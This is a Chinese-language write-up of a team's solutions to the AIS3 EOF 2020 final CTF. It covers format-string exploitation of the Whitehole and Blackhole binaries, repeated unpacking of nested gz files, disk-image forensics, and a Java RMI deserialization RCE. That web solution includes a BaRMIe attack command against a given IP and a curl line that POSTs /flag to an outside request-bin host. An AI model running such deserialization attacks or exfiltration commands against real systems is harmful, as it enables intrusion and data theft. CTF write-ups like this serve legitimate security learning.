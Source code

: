 # AIS3 EOF Final writeup

## bolqs 7th place 2519 pt

zodf0055980-1736 pt
pi3la-783 pt
shyang0117
bclin
![](https://i.imgur.com/3K9dkGi.png)


# Pwn
## Whitehole
buffer 在 global 上的 fmt，只能去利用 stack 上原本的值。
因為和第二題題組，第二題不能改 got 所以我就沒有去用 GOT hijacking
一開始可以透過 %p,%p 去拿到 stack 上的值去 leak libc 和 pie 的位置
首先先看 stack 上的值，因為我們只能去更改到 stack 上的所放的記憶體位置
```
0000| 0x7ffda5e456d0 --> 0x7ffda5e456e0 --> 0x7ffda5e456f0 --> 0x5563f0d91220 (<__libc_csu_init>:       push   r15)
0008| 0x7ffda5e456d8 --> 0x5563f0d911fa (<black_hole+36>:       jmp    0x5563f0d911da <black_hole+4>)
0016| 0x7ffda5e456e0 --> 0x7ffda5e456f0 --> 0x5563f0d91220 (<__libc_csu_init>:  push   r15)
0024| 0x7ffda5e456e8 --> 0x5563f0d91214 (<main+24>:     mov    eax,0x0)
0032| 0x7ffda5e456f0 --> 0x5563f0d91220 (<__libc_csu_init>:     push   r15)
0040| 0x7ffda5e456f8 --> 0x7f5fb39dcb97 (<__libc_start_main+231>:       mov    edi,eax)
0048| 0x7ffda5e45700 --> 0x1
0056| 0x7ffda5e45708 --> 0x7ffda5e457d8 --> 0x7ffda5e45e3f ("./whitehole")
0064| 0x7ffda5e45710 --> 0x100008000
0072| 0x7ffda5e45718 --> 0x5563f0d911fc (<main>:        push   rbp)
0080| 0x7ffda5e45720 --> 0x0
0088| 0x7ffda5e45728 --> 0xef65f1261eaa62d5
0096| 0x7ffda5e45730 --> 0x5563f0d91070 (<_start>:      xor    ebp,ebp)
0104| 0x7ffda5e45738 --> 0x7ffda5e457d0 --> 0x1
```
我這邊先選擇 `0x7ffda5e456d0` 和 `0x7ffda5e45708` 因為他可以改到 stack 上的值，把 stack 上的直去指向 `0x7ffda5e456f8` 和 `0x7ffda5e456f8 + 2`
之後便可以透過剛剛修改的位置去改 `0x7ffda5e456f8` 使他變成 `onegadget` 位置(剛好只需要修改到後 4個 byte)
之後把 `0x7ffda5e456d8` 的位置改成 `main+24` 也就是從 black_hole 要跳回 main 後的位置 (因為是 while 無窮迴圈 所以不會回 main)
這樣 stack 會長成這樣
```
0000| 0x7fffd8cd9770 --> 0x7fffd8cd9780 --> 0x7fffd8cd9778 --> 0x557f6a39d214 (<main+24>:	mov    eax,0x0)
0008| 0x7fffd8cd9778 --> 0x557f6a39d214 (<main+24>:	mov    eax,0x0)
0016| 0x7fffd8cd9780 --> 0x7fffd8cd9778 --> 0x557f6a39d214 (<main+24>:	mov    eax,0x0)
0024| 0x7fffd8cd9788 --> 0x557f6a39d214 (<main+24>:	mov    eax,0x0)
0032| 0x7fffd8cd9790 --> 0x557f6a39d220 (<__libc_csu_init>:	push   r15)
0040| 0x7fffd8cd9798 --> 0x7fe834676322 (<do_system+1138>:	mov    rax,QWORD PTR [rip+0x39bb7f]        # 0x7fe834a11ea8)
0048| 0x7fffd8cd97a0 --> 0x1 
0056| 0x7fffd8cd97a8 --> 0x7fffd8cd9878 --> 0x7fffd8cd979a --> 0x100007fe83467 
```
他會在 myprintf 中的 ret 跳回 main+24 並在 main 的 ret 在跳到 main + 24
而最後 main 的 ret 會跳到 onegadget 的位置

## Blackhole
變成 Full RELRO 但我在 Whitehole 沒用到 GOT hijacking 所以沒有差 XD
但在 dprintf 的 fd 變成 2，會用 stderr 傳出來，而 remote 端則不會顯示，因此要想辦法去寫掉 fd。
因為 fd offset 是 0x4010，因此我們如果寫進後 2 byte，執行時就有 1/16 的機率成功寫成 fd 的位置。(0x3010 - 0xf010)都有機會成功
修改完 fd 後就和 whitehole 解法一樣了。

# Reverse
## Gift
拆開 gz 檔會有一支程式，程式輸入正確密碼的話會輸出新的 gz 檔，裡面也有一支程式。
而透過 reverse 可以找到比較字串的位置在檔案的 0x8F8 後的 256 個 char。
因此可以透過寫腳本去循環解開檔案。解了 1000 遍後能拿到 flag 了。

# Web
## babyRMI2
題目有說是 RMI + Apache Common Collections
而看了一下引用的 common collections 版本是 3.2.1，是有問題的版本，因此可以透過[反序列化](https://wooyun.js.org/drops/java RMI相关反序列化漏洞整合分析.html)去 RCE
而出題者有說比 .git 洩漏簡單，因此猜測有工具使用
我使用 [BaRMIe_v1.01.jar](https://github.com/NickstaDB/BaRMIe)
```
java -jar BaRMIe_v1.01.jar -attack 140.113.203.209 11099
Deserialization payloads for: 140.113.203.209:11099
```
選擇對應的 Apache
Apache Commons Collections 3.1, 3.2, 3.2.1

他在 docker 有裝好 curl，因此可以用 curl 簡單得傳出來
curl -X POST -T /flag https://enhyyyue2ig9n.x.pipedream.net/

# Misc
## recovery
給一個 1G 的 diskimage 檔，如果直接對他用 strings 會有很多很明顯的 base64encode
使用 [Autopsy](https://www.sleuthkit.org/autopsy/) 這套工具可以去看 diskimage 中的檔案，會發現會有幾個特殊名稱的檔案
把該檔案內容做 decode，可以解出 flag 片段，多找幾個檔案湊一湊就出來了

# 官方 writeup
[babyRMI](https://hackmd.io/gwfYtqxwTz-DZ9H0g4UUAw?view)
[babyfirst & imagination](https://github.com/BookGin/my-ctf-challenges#ais3-eof-ctf-2019-finals)
[easyROP, Lucky, Unlucky](https://github.com/how2hack/my-ctf-challenges/tree/master/eof_finalctf-2020)
[TT TT_Revenge Whitehole Blackhole](https://github.com/yuawn/CTF/tree/master/2020/eof-final)
[CureURL](https://gist.github.com/CykuTW/edb0d7b39ecdc16a16cc05b149181a02) 簡單說明： Redis 用的協議 RESP 計算資料長度都是以 byte 為單位，而題目故意用 mb_strlen 去計算字串長度，這個函數遇到 unicode 字元會回傳「真的字元數」而非 byte 數量，例如中文字「倫」有 3 bytes 但 mb_strlen 只會回傳 1，所以可以攪爛 RESP 執行任意 redis command，最後串 cmd injection 就好了
